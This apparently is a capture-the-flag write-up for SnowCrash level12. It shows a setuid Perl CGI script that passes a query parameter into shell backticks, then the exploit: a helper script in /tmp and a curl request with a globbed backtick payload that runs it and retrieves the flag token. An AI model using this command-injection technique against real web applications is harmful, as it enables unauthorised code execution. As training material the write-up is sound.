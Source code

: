 # level12

## Perl CGI script with partially sanitized inputs

The hint file here is a Perl script.
```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

This Perl script only partially sanitizes its inputs by upcasing any lowercase letters and removing any whitespace characters.

However, this is inadequate as we can easily bypass this using path globbing to defeat the simple sanitization and shell backticks to execute our script.

```bash
level12@SnowCrash:~$
level12@SnowCrash:~$ echo 'getflag>/tmp/glag'>/tmp/GONK; chmod +x /tmp/GONK
level12@SnowCrash:~$ curl 'localhost:4646/level12.pl?x=`/*/gonk`'
..level12@SnowCrash:~$ cat /tmp/glag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$ 
```

